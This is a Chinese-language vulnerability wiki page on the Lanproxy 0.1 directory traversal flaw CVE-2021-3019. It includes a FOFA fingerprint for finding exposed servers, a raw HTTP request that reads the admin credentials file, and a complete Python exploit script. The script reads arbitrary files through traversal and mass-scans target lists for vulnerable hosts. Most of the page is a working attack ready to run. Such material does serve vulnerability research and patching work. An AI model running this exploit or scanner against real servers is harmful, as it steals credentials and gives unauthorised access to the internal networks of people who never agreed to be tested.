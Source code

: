 # Lanproxy 目录遍历漏洞 CVE-2021-3019

## 漏洞描述

Lanproxy是一个将局域网个人电脑、服务器代理到公网的内网穿透工具，支持tcp流量转发，可支持任何tcp上层协议（访问内网网站、本地支付接口调试、ssh访问、远程桌面等等）本次Lanproxy 路径遍历漏洞 (CVE-2021-3019)通过../绕过读取任意文件。该漏洞允许目录遍历读取/../conf/config.properties来获取到内部网连接的凭据。

## 漏洞影响

> [!NOTE]
>
> Lanproxy 0.1

# FOFA

> [!NOTE]
>
> header= "Server: LPS-0.1"

## 环境搭建

https://github.com/ffay/lanproxy/

## 漏洞复现

打开登录页面如下

![](http://wikioss.peiqi.tech/vuln/lanproxy-1.png)

使用Burp抓包发送如下请求

```html
GET /../conf/config.properties HTTP/1.1
Host: xxx.xxx.xxx.xxx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```

![](http://wikioss.peiqi.tech/vuln/lanproxy-2.png)

成功在配置文件中读取 账号密码

![](http://wikioss.peiqi.tech/vuln/lanproxy-3.png)

试着读取其他敏感文件

![](http://wikioss.peiqi.tech/vuln/lanproxy-4.png)

![](http://wikioss.peiqi.tech/vuln/lanproxy-5.png)



## 漏洞利用POC

[Github:CVE-2021-3019](https://github.com/FanqXu/CVE-2021-3019/)

```python
#!/usr/bin/env python3
# -*- encoding: utf-8 -*-
'''
@File    :   urllib.py
@Time    :   2021/01/10 21:59:32
@Author  :   _0xf4n9x_
@Version :   1.0
@Contact :   fanq.xu@gmail.com
@Desc    :   None
'''


import sys
import argparse
import os
from urllib import request
from urllib import error

banner = """
 ######  ##     ## ########     #######    #####    #######    ##       #######    #####    ##   #######  
##    ## ##     ## ##          ##     ##  ##   ##  ##     ## ####      ##     ##  ##   ## ####  ##     ## 
##       ##     ## ##                 ## ##     ##        ##   ##             ## ##     ##  ##  ##     ## 
##       ##     ## ###### ##### #######  ##     ##  #######    ## ##### #######  ##     ##  ##   ######## 
##        ##   ##  ##          ##        ##     ## ##          ##             ## ##     ##  ##         ## 
##    ##   ## ##   ##          ##         ##   ##  ##          ##      ##     ##  ##   ##   ##  ##     ## 
 ######     ###    ########    #########   #####   ######### ######     #######    #####  ###### #######  
                                                                                Author: _0xf4n9x_"""

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4080.0 Safari/537.36 Edg/82.0.453.0"}


def readConf(url):
    """
    默认读取配置文件，并通过能否读取配置文件来判断是否存在漏洞
    """
    config = [
        'config.server.bind',
        'config.server.port',
        'config.admin.username',
        'config.admin.password'
    ]
    path = "/../conf/config.properties"
    confUrl = url + path
    r = request.Request(confUrl, headers=headers)
    try:
        with request.urlopen(r, timeout=10) as resp:
            confContent = resp.read().decode('utf-8')
            for i in config:
                if i not in confContent:
                    print("[-] " + url + " is not vulnerable")
                    return 'Bye :('
            print("[+] " + url + " is vulnerable! :)")
            return confContent
    except ConnectionResetError:
        print("[-] " + url + " Connection reset by peer")
    except error.HTTPError as e:
        print("[-] " + url + e.code + e.reason)
    except error.URLError as e:
        print("[-] " + url + e.code + e.reason)
    except:
        print("[-] " + url + " is not vulnerable")
    return 0


def readOtherFile(url, path):
    """
    读取任意其他文件
    """
    jumpSym = "/../../../../../../../../.."
    fullUrl = url + jumpSym + path
    r = request.Request(fullUrl, headers=headers)
    with request.urlopen(r, timeout=10) as resp:
        fileContent = resp.read().decode('utf-8')
        print(fileContent)


def run(url, path="/../conf/config.properties"):
    if os.path.isfile(url) == False:
        # if 'http' not in url:
        #     url = 'http://' + url
        url = 'http://' + url.replace('http://', '').replace('/', '')
        if path == "/../conf/config.properties":
            print(readConf(url))
        else:
            if readConf(url) not in [0, 'Bye :(']:
                readOtherFile(url, path)
    else:
        urls = []
        with open(url) as target:
            urls = target.read().splitlines()
            for url in urls:
                # if 'http' not in url:
                #     url = 'http://' + url
                url = 'http://' + url.replace('http://', '').replace('/', '')
                if readConf(url) not in [0, 'Bye :(']:
                    with open("success.txt", "a+") as f:
                        f.write(url + "\n")
            f.close()


def main():
    parser = argparse.ArgumentParser(
        description="CVE-2021-3019 lanproxy arbitrary file read vulnerability detection POC")
    parser.add_argument('-u', '--url', type=str,
                        help="test a single website")
    parser.add_argument('-r', '--read', type=str,
                        help="this parameter is followed by the file name to be read, the configuration file is read by default")
    parser.add_argument('-f', '--file', type=str,
                        help="perform vulnerability checks on multiple websites in a file, and the vulnerable websites will be output to the success.txt file")
    args = parser.parse_args()

    if len(sys.argv) <= 1:
        parser.print_help()
    elif sys.argv[1] in ['-u', '--url']:
        if len(sys.argv) == 3:
            run(args.url)
        elif len(sys.argv) == 5:
            run(args.url, args.read)
    elif sys.argv[1] in ['-f', '--file']:
        run(args.file)


if __name__ == "__main__":
    print(banner)
    main()
```

![](http://wikioss.peiqi.tech/vuln/lanproxy-6.png)

## Goby & POC

> [!NOTE]
>
> Lanproxy_Arbitrary_File_Read_CVE-2021-3019

![](http://wikioss.peiqi.tech/vuln/lanproxy-7.png)



